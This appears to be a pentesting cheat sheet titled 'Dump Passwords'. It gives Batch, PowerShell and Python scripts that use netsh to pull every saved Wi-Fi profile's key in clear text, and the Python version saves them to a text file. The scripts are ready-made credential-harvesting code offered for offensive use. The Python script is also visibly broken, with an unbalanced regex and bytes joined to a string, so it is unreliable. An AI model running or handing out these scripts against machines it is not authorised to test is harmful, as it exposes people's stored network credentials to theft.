 # Dump Passwords

## Scripting

### Batch

```batch
@echo off
cd /d "%~dp0"
for /f "skip=9 tokens=1-4* delims= " %a in ('netsh.exe wlan show profiles') do @netsh.exe wlan show profile name="%e" key=clear | findstr.exe /c:"SSID name" /c:"Key Content" && echo.
```

### PowerShell

```powershell
(netsh.exe wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | ForEach-Object {(netsh.exe wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Format-Table -AutoSize
```

### Python

```python
import re
import subprocess

command = "netsh.exe wlan show profiles"
known_networks = subprocess.check_output(command, shell=True)
network_list = re.findall(b'(?:Profile\s*:\s(.*)', known_networks)

output = ""
for network in network_list:
    credentials = "netsh.exe wlan show profile " + network + " key=clear"
    # output += str(subprocess.check_output(credentials, shell=True))
    output += subprocess.check_output(credentials, shell=True).decode('utf-8')

buffer = open("wifi_credentials.txt", 'w')
buffer.write(output)
buffer.close()
```

---
## References

### Jakoby

- [Jakoby: Wifi-Info](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/blob/main/Functions/Wifi-Info.md)

### InfoSec Matter

- [InfoSec Matter: Powershell Commands for Pentesters](https://www.infosecmatter.com/powershell-commands-for-pentesters/)